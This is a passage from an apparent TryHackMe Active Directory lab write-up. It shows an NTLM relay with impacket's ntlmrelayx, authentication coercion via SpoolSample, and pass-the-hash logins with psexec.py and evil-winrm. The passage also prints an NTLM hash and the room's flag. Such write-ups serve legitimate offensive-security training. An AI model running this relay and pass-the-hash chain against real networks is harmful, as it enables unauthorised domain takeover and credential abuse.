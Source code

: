 Since all conditions are met, we can attack this in the following way, if we're using default kali, we can find the `ntlmrelayx.py` here:

```
/usr/share/doc/python3-impacket/examples/ntlmrelayx.py
```

So, we can do:

```
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1_IP" -debug
```

![](images/Pasted%20image%2020250527132001.png)

As seen, the servers started and are waiting for connections, let's proceed then, in our ssh session we need to do:

```
C:\Tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc "VPN_IP"
```

![](images/Pasted%20image%2020250527132328.png)

If we check our `ntlmrelayx.py` script:

![](images/Pasted%20image%2020250527132408.png)

Since we got our hashes, we can use `psexec.py` or `evil-winrm` to authenticate:

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :f8f33c432f07861310448b576d5ed2a6 trevor.local@THM_SERVER1_IP

# OR

evil-winrm -i THMSERVER1_IP -u trevor.local -H f8f33c432f07861310448b576d5ed2a6
```

![](images/Pasted%20image%2020250527132752.png)

There we go, let's get our flag:

```
C:\> type C:\Users\Administrator.Za\Desktop\flag3.txt
THM{Printing.Some.Shellz}
```

## Exploiting AD Users

***

We have gotten quite far with our exploitation up to this point. We have full administrative access to workstations and servers. Essentially, we can perform post-exploitation on almost any Tier 1 and Tier 2 system. But we still want to go further. This next task can also be seen as post-exploitation but is often an excellent thing to use when we are still performing exploitation to reach a suitable position for goal execution. It is time for us to target AD users.

